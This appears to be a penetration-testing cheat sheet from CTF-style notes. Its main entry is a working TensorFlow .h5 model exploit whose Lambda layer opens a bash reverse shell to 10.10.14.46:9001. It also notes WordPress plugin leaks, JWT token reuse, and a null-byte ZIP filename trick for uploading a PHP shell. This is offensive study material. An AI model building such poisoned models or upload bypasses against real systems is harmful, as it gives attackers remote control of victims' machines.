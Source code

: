 ## Recon & Enumeration {#recon-and-enumeration}

## Service-Specific Notes {#service-specific-notes}

## Web Exploitation {#web-exploitation}

### TensorFlow `.h5` model deserialization allows arbitrary code execution when a `Lambda()` layer executes malicious Python.
```python
import tensorflow as tf

def exploit(x):
    __import__('os').system("bash -c 'bash -i >& /dev/tcp/10.10.14.46/9001 0>&1'")
    return x

inp = tf.keras.Input(shape=(1,))
x = tf.keras.layers.Dense(1)(inp)
x = tf.keras.layers.Lambda(exploit)(x)
model = tf.keras.Model(inputs=inp, outputs=x)
model.save("full.h5")
```

### Insecure WordPress Plugin Disclosure
- Plugins may expose sensitive data or allow unauthenticated enumeration via debug or backup routes.
- Watch for SQL exports or `.bak`/`.sql` file leaks tied to `/wp-content/plugins/....`

### JWT-Based API Exploitation (From Mobile/Local Apps)
> APIs used by mobile apps or internal web panels often authenticate via JWT tokens. These can sometimes be intercepted, reused, or even generated.

- Look for /login endpoints that return access_token fields.
- Decode with tools like:
```bash
jwt_tool <token>
jwt-cli decode <token>
```

### ZIP Upload Bypass via Null Byte Injection
Some upload validators only check the file extension after a null byte (\x00). This can be abused to upload executable files disguised as safe types (e.g., .php\x00.pdf).
Technique:
- Modify ZIP archive filenames using null byte injection to bypass server-side filters:
```python
item.filename = 'shell.php\x00.pdf'
```
- Upload shell.zip, extract on the server, and access .php file directly.
Tools: zipfile in Python, or zip -r + manual patching.
